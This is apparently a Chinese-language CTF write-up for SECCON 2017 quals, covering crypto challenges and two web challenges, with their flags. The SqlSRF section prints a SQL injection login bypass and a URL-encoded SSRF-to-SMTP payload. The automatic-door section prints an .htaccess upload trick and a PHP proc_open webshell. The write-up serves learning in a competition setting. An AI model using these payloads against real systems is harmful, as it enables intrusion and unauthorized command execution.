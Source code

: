# SECCON CTF quals 2017

## Vigenere3d

就是 Vigenere cipher 而且 key 是回文

隨便寫個 script 就解出來了 ([solve.py](Vigenere3d/solve.py))

flag : SECCON{Welc0me_to_SECCON_CTF_2017}

## Ps-and-Qs

給兩把 public key

有共同質數 gcd 一下就解出來了 ([solve.py](Ps-and-Qs/solve.py))

flag : SECCON{1234567890ABCDEF}

## SHA-1-is-dead

SHA1 collision 但是要求兩個檔案的大小要介於 2017KiB ~ 2018KiB

那就把 google 的那兩個檔案拿來後面隨便接一些一樣的字串讓大小夠就好了

flag : SECCON{SHA-1_1995-2017?}

## SqlSRF

> The root reply the flag to your mail address if you send a mail that subject is "give me flag" to root.
> http://sqlsrf.pwn.seccon.jp/sqlsrf/

我們可以看到 index.cgi 的原始碼

這行有 sql injection `"SELECT password FROM users WHERE username='".$q->param('user')."';"`

看原始碼也可以知道他是用 sqlite

他會把 select 出來的東西跟 encrypt(param['pass']) 比較，一樣就可以登入了

另外，如果句選 Remember Me 的話，他會幫你把 encrypt(param['user']) 存在 cookie 裡面，然後幫你解密放在 user 的 input box ( 我們可以加解密任意字串 )

所以先得到 encrypt('oalieno') = '6102b0591250cea64f303ec4a9c6425f'

user 放 `' union select '6102b0591250cea64f303ec4a9c6425f' -- `

pass 放 `oalieno`

就可以順利登入了

![](https://i.imgur.com/EQqOS9M.png)

在 menu.cgi 我們可以按 `netstat -tnl` 但是不能用 `wget --debug -O /dev/stdout 'http://{}'` ( 需要 admin )

![](https://i.imgur.com/9q6DY8Q.png)

所以我們回過頭來用 sql blind injection 取得 admin 的密碼 ([solve.py](SqlSRF/solve.py))

密碼是 encrypt 過的 ( 長度 32 ) 同樣用 Remember Me 解密

admin password = decrypt(d2f37e101c0e76bcc90b5634a5510f64) = 'Yes!Kusomon!!'

成功用 admin 登入後就可以用 wget 發 request

剛剛用 netstat 可以看到 `127.0.0.1:25` 這台 local 的 SMTP server

直接 wget `127.0.0.1:25` 的話可以看到 SMTP server 會把我們的 http request 的每一行都當成 SMTP 的指令來看

![](https://i.imgur.com/a0Mdg7W.png)

那我們就用 `%0d%0a` 來下 SMTP 指令寄信給 `root`

```
127.0.0.1
HELO oalieno
MAIL From: <xxx@gmail.com>
RCPT To: <root>
DATA
Subject: give me flag
oalieno
.
:25/
```

把上面的東東做 urlencode 就可以了

final payload : `127.0.0.1%0D%0AHELO%20oalieno%0D%0AMAIL%20From%3A%20%3Cxxx%40gmail.com%3E%0D%0ARCPT%20To%3A%20%3Croot%3E%0D%0ADATA%0D%0ASubject%3A%20give%20me%20flag%0D%0Aoalieno%0D%0A.%0D%0A:25/`

然後就收到信了XD

![](https://i.imgur.com/OEwnXKM.png)

但是 flag 也被 encrypt 過，那就同樣用 Remember Me 解密

flag : SECCON{SSRFisMyFriend!}

## Very Smooth

[some ctf writeups](https://ctf.rip/bsides-sf-ctf-2017-root-crypto-challenge/)

[extract certificate from pcap](https://security.stackexchange.com/questions/123851/how-can-i-extract-the-certificate-from-this-pcap-file)

參考上面兩篇把 憑證 取出來存成 `certificate.der`

`openssl x509 -inform der -pubkey -noout -in certificate.cer > pub.pem` 再轉成 pem 格式的 public key

再來就是來分解 N 了 ( N 是 1024 bit )

首先用 `./RsaCtfTool.py --publickey public.pem --verbose --private` 但解不開 ( factordb 可以分解 O_O 不過應該是賽後有人把他傳上去了因為我是賽後才解這題的 )

但是題目有提示 smooth 也就是 smooth number 也就是質因數很多的 number

那我就用 Pollard p-1 就直接解出來了 O_O ( 看 writeups 好像大家都用 Williams p+1 還沒看懂他 Orz )

解出來之後輸出成 pem 格式的 private key

![](https://i.imgur.com/x3tDP65.png)

Edit>Preference Protocol>SSL>Edit RSA keys list 把 private.pem 匯入

然後 follow SSL stream 就大功告成

![](https://i.imgur.com/yLT7EL0.png)

flag : SECCON{One of these primes is very smooth.}

## automatic door

> Get shell, and execute /flag_x

> http://automatic_door.pwn.seccon.jp/0b503d0caf712352fc200bc5332c4f95/

網站提供 read 和 write 和 看 phpinfo 和 看當前路徑 的功能

主要的思路就是放一個可以用的 webshell 上去 ( `strstr($f, 'ph')` 這行限制了不能上傳 `.php` )

先看 phpinfo 可以看到系統是 `linux` 然後很多被 ban 的 function

![](https://i.imgur.com/5wjyXtQ.png)

所以首先我們先上傳 `.htaccess` 讓我們可以傳 `.txt` 他就會當作 php script 執行

```
AddType application/x-httpd-php .txt
```

`proc_open` 很剛好的沒有被 ban

上傳 `shell.txt` 再去瀏覽 `http://automatic_door.pwn.seccon.jp/0b503d0caf712352fc200bc5332c4f95/sandbox/FAIL_xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx/shell.txt`

```php
<?php
$cwd = '';
$descriptorspec = array(
    0 => array("pipe", "r"),
    1 => array("pipe", "w"),
    2 => array("file", "/tmp/error-output.txt", "a")
);

$process = proc_open("/flag_x", $descriptorspec, $pipes, $cwd);

echo stream_get_contents($pipes[1]);
fclose($pipes[1]);
?>
```

flag : SECCON{f6c085facd0897b47f5f1d7687030ae7}
